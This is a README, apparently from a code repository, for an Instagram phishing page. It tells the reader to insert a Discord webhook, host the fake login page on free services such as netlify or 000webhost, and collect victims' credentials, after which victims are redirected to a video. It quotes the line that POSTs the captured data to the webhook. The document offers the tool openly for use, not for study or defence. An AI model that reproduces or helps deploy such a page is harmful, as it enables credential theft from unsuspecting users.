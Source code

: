 # Instagram Phishing Page

Usage :

- My Instagram phishing page is really easy to use, you only have to replace WEBHOOK on line 101 by your Discord webhook
 > request.open("POST", "Webhook");
- Next you upload it in your website (like netlify or 000webhost, they are free)
- When someone will login you will receive his credentials and he will be redirected to a funny video (the one in the link, you can change it by editing the link and the js part in HTML on line 108).
